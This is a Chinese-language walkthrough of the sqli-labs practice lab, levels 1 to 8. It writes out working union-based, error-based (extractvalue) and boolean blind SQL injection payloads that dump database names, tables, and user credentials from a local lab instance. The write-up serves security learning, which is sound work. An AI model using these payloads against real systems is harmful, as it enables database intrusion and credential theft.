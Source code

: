 # sqli-labs

## Less-1

![image-20240304232324396](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240304232324396.png)

打开hackbar输入?id=1

![image-20240304232403909](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240304232403909.png)

加个单引号之后报错，存在注入点且为字符型注入

![image-20240304232454703](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240304232454703.png)

使用group by查出有三列内容

![image-20240304232557959](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240304232557959.png)

把id改为0，并且使用union select来判断回显位置

![image-20240304232653887](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240304232653887.png)

```mysql
?id=0' union select 1,database(),version()--+
爆出数据库名为security，版本为5.7.26
```

```mysql
?id=0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
爆出的表有emails,referers,uagents,users，其中users有用
```

```mysql
id=0' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+
爆出users表中有三列内容id,username,password
```

```MYSQL
?id=0' union select 1,group_concat(username,'~',password),3 from users--+
直接爆出用户名和密码
```

## Less-2

这关为数字型注入，和Less-1一样的步骤，只不过不需要用单引号来闭合

```MYSQL
?id=0 union select 1,group_concat(username,'~',password),3 from users--+
```

## Less-3

这关为字符型注入，只不过多了一个单括号

```mysql
http://127.0.0.1/sql/Less-3?id=0') union select 1,group_concat(username,'~',password),3 from users--+
```

## Less-4

这关为字符型注入，形式变为双引号加单括号

```mysql
http://127.0.0.1/sql/Less-4?id=0") union select 1,group_concat(username,'~',password),3 from users--+
```

## Less-5

```mysql
首先确定为字符型注入，然后使用group by确定列数，再使用union select 1,database(),3--+发现没有回显，于是可以使用报错注入
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select database()))),3--+ 
爆数据库名
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3--+ 
爆表名
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))),3--+
爆users表列名 
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users))),3--+ 
爆信息，但是由于报错注入只能返回32个字符，所以要使用substring
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select substring(group_concat(username,'~',password),25,30) from users))),3--+ 
substring使其从第25个字符开始往后再显示30个字符，再拼接起来就得到了所有用户名和密码
```

## Less-6

```mysql
和Less-5几乎一模一样，只需要把单引号改为双引号就行
http://127.0.0.1/sql/Less-6?id=0" union select 1,extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users))),3--+ 
```

## Less-7

```mysql
http://192.168.88.133/sql/Less-7?id=1'
报错，后面加--+依旧报错，改为'))后发现不报错了，此时便可开始注入
?id=1'))and length((select database()))>9--+
判断数据库名长度
?id=1'))and ascii(substr((select database()),1,1))=115--+
一个一个判断数据库的名字
?id=1'))and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
判断所有表名字符长度
?id=1'))and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
逐一判断表名
然后就是判断字段名，再逐一爆出字段内的内容，即username和password
很费时间！！！
```

## Less-8

```mysql
和第七关差不多，将'))换成'就行
```

## Less-9

